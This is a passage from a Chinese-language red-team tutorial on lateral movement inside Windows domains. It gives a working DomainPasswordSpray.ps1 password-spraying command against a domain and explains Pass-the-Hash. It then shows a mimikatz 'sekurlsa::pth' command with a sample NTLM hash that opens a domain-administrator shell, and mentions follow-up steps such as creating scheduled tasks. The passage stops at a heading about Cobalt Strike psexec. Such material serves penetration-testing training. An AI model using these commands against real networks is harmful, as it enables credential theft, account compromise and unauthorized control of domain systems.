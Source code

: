 使用DomainPasswordSpray.ps1脚本仅适用于爆破域内用户，powershell执行命令如下：

```
Import-Module .\DomainPasswordSpray.ps1

Invoke-DomainPasswordSpray -UserList <> -Domain henry.com -Password qQ123456 -Force
```

![image-20230831113245085](内网横向移动/image-20230831113245085.png)	



# PTH横向移动

## 简介

哈希传递攻击（Pass-the-Hash, PTH）是一种攻击技术，攻击者不需要知道用户的明文密码，而是直接利用密码的哈希值进行认证。当用户登录计算机或访问资源时，操作系统会生成并存储密码的哈希值。攻击者通过某种方式获取这些哈希值，然后使用它们来伪装成合法用户，以访问网络上的资源。

在PTH攻击中，攻击者的目标是捕获并使用这些哈希值，而不是尝试破解它们得到实际的密码。这种攻击是在Windows环境中特别常见的，因为NTLM认证机制允许哈希作为凭证进行认证



## 利用条件

哈希传递攻击要求管理员的 NTLM Hash 以及目标机器的445端口开放。

- **对于Windows Vista之前的机器**：可以使用本地管理员组内的用户哈希进行攻击。
- **对于Windows Vista及之后的机器**：
  - 在工作组环境中：只有administrator（SID为500）用户的哈希可以用于攻击。其他用户，即使是管理员用户，也会收到“拒绝访问”的提示。
  - 在域环境中：仅域管理员组内的用户哈希（包括非administrator用户）可以用于攻击，成功后可访问域内任意机器。



## 使用mimikatz获取域控管理员权限cmd

当我们得到域控管理员用户的NtlmHash时，比如此处我获取到管理员用户的ntlmhash为`e39c2287a10517cf1cde66bd8c7c6cf0`，执行如下命令，执行完毕后会反弹一个域控管理员权限的cmd

```
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:administrator /domain:10.10.10.10 /ntlm:e39c2287a10517cf1cde66bd8c7c6cf0"
```

![image-20230831172415879](内网横向移动/image-20230831172415879.png)



利用域控管理员权限的cmd，可以进行更进一步的后渗透，比如`dir`查看域控目录和`schtasks`创建计划任务等等

![image-20230831220055231](内网横向移动/image-20230831220055231.png)	



## CS执行psexec_psh横移上线
